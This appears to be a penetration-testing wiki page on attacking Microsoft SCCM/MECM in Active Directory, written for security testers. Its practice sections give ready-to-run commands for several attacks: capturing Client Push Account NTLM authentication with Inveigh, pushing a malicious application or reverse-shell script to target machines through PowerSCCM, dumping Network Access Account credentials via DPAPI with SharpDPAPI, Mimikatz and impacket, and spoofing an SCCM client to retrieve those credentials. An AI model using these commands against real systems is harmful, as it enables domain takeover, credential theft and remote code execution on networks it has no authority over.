 # SCCM / MECM

## Theory

The **System Center Configuration Manager** (SCCM), now known as **Microsoft Endpoint Configuration Manager** (MECM), is a software developed by Microsoft to help system administrators manage the servers and workstations in large Active Directory environments. It provides lots of features including remote control, patch management, task automation, application distribution, hardware and software inventory, compliance management and security policy administration.

When SCCM is installed in an Active Directory, the clients can be deployed on the workstations by six different ways:

* Client push installation
* Software update-based installation
* Group Policy installation
* Manual installation
* Logon script installation
* Package and program installation

<details>

<summary>Client push installation</summary>

The first way of deploying SCCM is the **Client push installation** method, which is the default one and the least secure.&#x20;

This installation will use "client push accounts". They are service acounts with local administrative rights on the assets where SCCM will have to deploy some stuff. The system administrator creates groups of endpoints and for each of those, one "client push account". For each group, only one "client push account" can authenticate with administrator rights on the assets of this group. Thus, if an account is compromised, only the members of the corresponding group can be compromised in turn.

When the SCCM deployment is launched, it will basically try to authenticate with each client push accounts on each asset, and if the authentication fails, SCCM will try the next account in line. When the authentication succeeds, it moves to the following asset, and so on until the deployment is complete.

SCCM deployment via **Client push installation** is service accounts credentials spraying in a nutshell.

</details>

## Practice

### Client push installation

With a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.

In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.

In order to retrieve the Client Push Account's authentication, all local admins must be removed from the compromised host, and a listener can be started on it with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (C# or Powershell).

```powershell
# 1. Remove all the local Administrators on the compromised machine
net user <username> /delete

# 2. Listen for authentication with Inveigh
.\Inveigh.exe -Challenge 1122334455667788
```

Once the capturing/relaying listeners are started, the tester can wait for the Client Push Accounts to authenticate automatically. Hopefully, NTLMv1 will be used, allowing for easier NTLM cracking. There are other alternatives to cracking the response, like [relaying the authentication](ntlm/relay.md).

### Applications and scripts deployment

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.&#x20;

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

### SCCM credentials extraction with DPAPI

When non-domain joined computers need to retrieve software from a SCCM server, the SCCM endpoint will deploy **Network Access Accounts (NAA)** on them. The NAAs do nothing on the hosts but access resources across the network. Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.

The NAA policy, including the NAA's credentials, is sent by the SCCM server and stored on the client machine, encrypted via DPAPI with SYSTEM's master key. With a SYSTEM (i.e. local admin) access on the target, it is possible to decipher the policy and retrieve the credentials.

{% hint style="info" %}
It appears that even after changing the NAA account or uninstalling the SCCM client, the credentials are still present on the disk.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher the WMI blob via DPAPI and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```
{% endtab %}

{% tab title="Windows" %}
With an elevated session on the target machine, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used to extract the SCCM credentials on the host.

```powershell
.\SharpDPAPI.exe SCCM
```

The tool [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for the same purpose.

```batch
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```
{% endtab %}
{% endtabs %}

### Network Access Account deobfuscation

A computer account has the ability to register itself with the SCCM server and request the encrypted NAA policies, decrypt them, deobfuscate them and retrieve the NAA's credentials in them.

The first step consists in controlling a computer account. One can be [created](domain-settings/machineaccountquota.md#create-a-computer-account) if the [Machine Account Quota](domain-settings/machineaccountquota.md) attribute is greater than 0.

{% content-ref url="domain-settings/machineaccountquota.md" %}
[machineaccountquota.md](domain-settings/machineaccountquota.md)
{% endcontent-ref %}

#### Enroll and retrieve the NAA policy

The SCCM attack can then be performed with [sccmwtf](https://github.com/xpn/sccmwtf) (Python). The new client to spoof doesn't need to be the previously created computer account (useful if you only have an existing computer account already enrolled).

The positional arguments are as follows:

* Spoof Name&#x20;
* Spoof FQDN&#x20;
* Target SCCM&#x20;
* Computer account username&#x20;
* Computer account password

{% code overflow="wrap" %}
```bash
sccmwtf.py "fakepc" "fakepc.domain.local" 'SCCM-Server' 'DOMAIN\ControlledComputer$' 'Password123!'
```
{% endcode %}

{% hint style="warning" %}
The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.
{% endhint %}

#### Retrieve the credentials

Then, on a Windows machine, the two blobs (`NetworkAccessUsername` and `NetworkAccessPassword`) can be retrieved in plaintext by indicating only the hexadecimal part.

```powershell
.\policysecretunobfuscate.exe <blob_hex_1>
.\policysecretunobfuscate.exe <blob_hex_2>
```

## Resources

{% embed url="https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://docs.microsoft.com/en-us/powershell/module/configurationmanager/?view=sccm-ps" %}

{% embed url="https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9" %}

{% embed url="https://blog.xpnsec.com/unobfuscating-network-access-accounts/" %}
